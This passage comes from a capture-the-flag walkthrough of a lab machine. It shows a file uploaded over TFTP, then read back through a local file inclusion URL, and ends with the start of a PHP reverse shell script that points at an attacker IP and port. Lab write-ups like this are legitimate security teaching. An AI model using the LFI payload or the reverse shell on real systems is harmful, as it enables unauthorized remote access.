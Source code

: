    Then we upload it on the victim

   ```
   tftp> put tmp.txt
   ```

7. By the vulnerability of LFI, we can view what we have uploaded

   ```
   http://<Target_IP>/?file=/var/lib/tftpboot/tmp.txt
   ```

   ![](../assets/img/htb-starting-point/89.png)

8. It's time for us to upload a reverse shell php file on it. Let's prepare a reverse shell from https://www.revshells.com/

   ```php
   <?php
   // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
   // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
   
   set_time_limit (0);
   $VERSION = "1.0";
   $ip = '10.10.15.239';
   $port = 1337;
   $chunk_size = 1400;
   $write_a = null;
   $error_a = null;
   $shell = 'uname -a; w; id; sh -i';
   $daemon = 0;
   $debug = 0;
   
   if (function_exists('pcntl_fork')) {
   	$pid = pcntl_fork();
   	
   	if ($pid == -1) {
   		printit("ERROR: Can't fork");
   		exit(1);
   	}
   	
   	if ($pid) {
   		exit(0);  // Parent exits
   	}
   	if (posix_setsid() == -1) {
   		printit("Error: Can't setsid()");
   		exit(1);
   	}
   
   	$daemon = 1;
   } else {
   	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
   }
   
   chdir("/");
   
   umask(0);
   
   ```